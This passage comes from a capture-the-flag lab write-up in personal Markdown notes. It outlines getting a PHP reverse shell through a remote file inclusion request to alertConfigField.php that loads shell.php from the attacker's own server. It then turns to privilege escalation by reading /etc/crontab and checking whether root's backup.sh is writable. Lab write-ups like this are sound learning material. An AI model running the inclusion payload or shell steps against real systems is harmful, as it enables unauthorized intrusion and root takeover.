 ```ad-summary
1. Download a php reverse shell.
2. Start a server using python.
3. Start our listener
4. Request the link: `http://$ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$our_ip:8000/shell.php`

### Output 
----

We got our shell.

```




Once the shell connection is established, we need to stabilize our shell in order to have a better experience, let's use our [note](../../Commands/Shell%20Tricks/STABLE%20SHELL.md):

![Pasted image 20241121143025.png](../../IMAGES/Pasted%20image%2020241121143025.png)

Nice, now we have a stable shell, let's begin with our privilege escalation



# PRIVILEGE ESCALATION
---

## `/etc/crontab`

If we use `cat /etc/crontab` we find this:

![Pasted image 20241121143321.png](../../IMAGES/Pasted%20image%2020241121143321.png)

User `root` is running a script inside of `milesdyson` home called `backup.sh` let's check if we are able to write in it:

![Pasted image 20241121143414.png](../../IMAGES/Pasted%20image%2020241121143414.png)
